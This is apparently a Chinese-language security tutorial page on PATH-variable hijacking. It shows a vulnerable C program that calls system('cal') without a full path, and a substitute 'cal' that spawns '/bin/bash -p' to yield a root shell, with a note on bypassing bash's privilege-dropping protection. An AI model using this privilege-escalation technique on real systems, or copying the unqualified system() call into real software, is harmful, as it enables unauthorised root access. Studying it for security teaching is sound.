


# 攻击外部程序

!!! PATH环境变量影响shell程序

    影响shell程序行为方式有多种，最常见的就是PATH环境变量。如果一个程序没有提供命令的
    具体位置，shell将使用PATH环境变量来搜索命令。
   
```c
#include <stdlib.h>

int main()
{
    system("cal");
}
```


运行一个有安全隐患的程序，正常打印出日历

```c
#include <stdlib.h>

int main()
{
    system("/bin/bash -p");
}
```

通过改变环境变量，当运行vul程序时，先找到当前目录下的cal程序，就得到了一个
有root权限的shell

!!! Note

    ubuntu 16.04以上版本，有保护机制，特权程序运行时会忽略自己提供的环境变量，
    故使用-p选项，告诉bash不要使用保护机制
